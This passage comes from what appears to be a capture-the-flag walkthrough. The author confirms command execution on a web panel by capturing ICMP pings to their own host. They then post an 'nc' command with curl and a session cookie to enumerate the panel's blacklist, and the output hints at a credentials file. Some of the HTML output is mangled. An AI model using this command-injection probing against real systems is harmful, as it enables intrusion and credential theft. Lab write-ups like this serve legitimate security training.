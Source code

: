 If I change the IP to my IP, I can see the pings:



    root@kali# tcpdump -i 2 icmp
    tcpdump: verbose output suppressed, use -v or -vv for full protocol decode
    listening on tun0, link-type RAW (Raw IP), capture size 262144 bytes
    08:46:14.049050 IP 10.10.10.92 > kali: ICMP echo request, id 1177, seq 1, length 64
    08:46:14.049068 IP kali > 10.10.10.92: ICMP echo reply, id 1177, seq 1, length 64
    08:46:15.051081 IP 10.10.10.92 > kali: ICMP echo request, id 1177, seq 2, length 64
    08:46:15.051095 IP kali > 10.10.10.92: ICMP echo reply, id 1177, seq 2, length 64



#### Enumeration of Filtering

If I try to use nc, it complains:

![](/img/1531226978323.png)

The path forward from here is pretty simple, but for the fun of it, I'll
see what other strings are in the blacklist.

I'll first issue a command with curl to make sure it works:



    root@kali# curl -s -6 -X POST "http://[dead:beef::250:56ff:feb2:7cff]:80/" -H "Cookie: PHPSESSID=697rbtjrbikamspvck4p3u309d" -d "command=nc"

    <!DOCTYPE.md>
    .md>
    <title>Command Execution Panel (Beta)</title>
    <head>
            <link rel="stylesheet" type="text/css" href="assets/css/style.css">
            <link href="http://fonts.googleapis.com/css?family=Comfortaa" rel="stylesheet" type="text/css">
    </head>
    <body>

            <div>
                    <a href="/">Command Execution Panel</a>
            </div>


                    <br />Welcome administrator 
                    <br /><br />
                    <a href="logout.php">Logout?</a>
                    <form action="/" method="post">
                    Command: <br>
                    <input type="text" name="command" value="ping -c 2 127.0.0.1"><br>
                    <input type="submit" value="Execute">
                    </form>
                    <p>
                    <p>
                    <p>In my home directory, i have my password in a file called credentials, Mr Admin
                    <p>

